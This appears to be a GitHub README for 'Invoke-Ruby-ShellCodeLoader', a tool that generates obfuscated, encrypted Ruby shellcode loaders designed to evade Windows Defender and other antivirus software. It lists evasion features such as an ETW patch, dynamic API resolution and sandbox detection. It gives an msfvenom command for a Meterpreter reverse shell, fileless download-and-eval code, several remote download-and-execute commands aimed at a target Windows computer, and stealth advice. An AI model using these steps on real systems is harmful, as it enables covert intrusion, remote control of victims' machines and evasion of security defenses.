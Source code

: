 ### Invoke-Ruby-ShellCodeLoader.rb
--------------------------------------
'Invoke-Ruby-ShellCodeLoader' is a shellcode loader script generator that aims to bypass AV solutions such as Windows Defender.
It generates an obfuscated and encrypted shellcode loader (Ruby script) that implements several antivirus bypass and defense evasion techniques.

#### FEATURES
  - Shellcode injection into the memory of the current process (Ruby)
  - Shellcode encryption (XOR)
  - Script obfuscation (randomized function and variable names + nested payloads with reflective loading)
  - ETW bypass in user-mode (patching method / EtwEventWrite function)
  - Dynamic API resolution (via GetProcAddress + hash-based API resolution)
  - Basic sandbox detection and evasion (Terminates execution if a 'sleep acceleration' is detected)
  - Compatible with shellcodes of multiple C2 frameworks such as Metasploit and Havoc

#### USAGE
- STEP 1. Generate an obfuscated shellcode loader (Ruby script) using a shellcode (in Ruby format) from your preferred C2 framework as input.  
          <i/>Note: Tools like "SUPERNOVA" can be used to convert a raw shellcode into the ruby format (https://github.com/nickvourd/Supernova)</i>
```
Basic example (with Metasploit)
-------------------------------
$> msfvenom -p windows/x64/meterpreter_reverse_https EXITFUNC=thread LHOST=<IP-address> LPORT=443 -a x64 -f ruby -o ruby-shellcode.bin
Note: remove the beginning of the shellcode file (e.g. "buf[]=") and only keep the shellcode content in ruby (e.g. "\x56\x48\x89\...") in the file "ruby-shellcode.bin"

C:\path\ruby> ruby.exe .\Invoke-Ruby-ShellCodeLoader.rb ".\ruby-shellcode.bin" ".\obfuscated_shellcodeloader.rb"
```

- STEP 2. Multiple options exist to download & execute the obfuscated shellcode loader (Ruby script) on a target Windows computer

  - Option A: Utilize a portable Ruby interpreter (https://rubyinstaller.org) + Fileless delivery of the obfuscated shellcode loader (Ruby script) 
```
1 - Download a portable Ruby interpreter with a good reputation.
    Example:
    PS C:\temp> wget -uri https://X.X.X.X/Ruby34-x64.zip -OutFile C:\temp\ruby.zip
    PS C:\temp> tar -xf .\ruby.zip

2 - Download from a remote web server and execute directly in memory the obfuscated shellcode loader script on the target Windows machine using Ruby.
    This fileless delivery technique enhances stealth and helps evade static antivirus detection.
    Example:
    --------
    C:\temp\ruby> type .\Ruby-fileless-delivery.rb
    require 'open-uri'
    url = 'http://website/obfuscated_shellcodeloader.rb'
    eval(URI.open(url).read)

    C:\temp\ruby> ruby.exe .\Ruby-fileless-delivery.rb 
```
  - Option B: Utilize a portable Ruby interpreter (https://rubyinstaller.org) + Download the obfuscated shellcode loader (Ruby script) locally before execution.
```
1 - Download a portable Ruby interpreter with a good reputation.
    Example:
    PS C:\temp> wget -uri https://X.X.X.X/Ruby34-x64.zip -OutFile C:\temp\ruby.zip
    PS C:\temp> tar -xf .\ruby.zip

2 - Download and store the obfuscated shellcode loader script locally on disk before executing it with Ruby.
    While obfuscation and encryption help evade static analysis by most antivirus solutions, this approach may offer reduced stealth compared to in-memory execution.
    Example:
    --------
    C:\temp\ruby> powershell -c "wget -uri http://X.X.X.X/obfuscated_shellcodeloader.rb -OutFile C:\temp\ruby\obfuscated_shellcodeloader.rb"
    C:\temp\ruby> ruby.exe .\obfuscated_shellcodeloader.rb
```
  - Option C: Utilize Ocra or Ruby Packer (rubyc) to bundle the obfuscated shellcode loader Ruby script into a single executable (e.g. script.exe) and then download and execute it on a target Windows computer
```
1 - Utilize Ocra or Ruby Packer (rubyc) to bundle the obfuscated shellcode loader Ruby script into a single executable (e.g. script.exe)
    + [Ocra] "ruby.exegem install ocra" and then "ruby.exe ocra .\test\shellcode_loader.rb"
    + [Ruby Packer (rubyc)] https://github.com/pmq20/ruby-packer/releases/tag/windows-x64

2 - Download and execute the obfuscated shellcode loader "script.exe" on a target Windows computer
    The obfuscation and encryption allow to evade static analysis by most antivirus solutions, though this method may offer reduced stealth compared to in-memory execution.
    Example:
    --------
    C:\temp> powershell -c "wget -uri http://X.X.X.X/script.exe -OutFile C:\temp\script.exe"
    C:\temp> script.exe
```

#### OPSEC advices
- Remove all existing comments in the script (loader template) before generating your obfuscated shellcode loader.
- When possible use fileless delivery technique to enhance stealth and evade static antivirus detection.
  
#### LICENSE
  - GNU General Public License v3.0
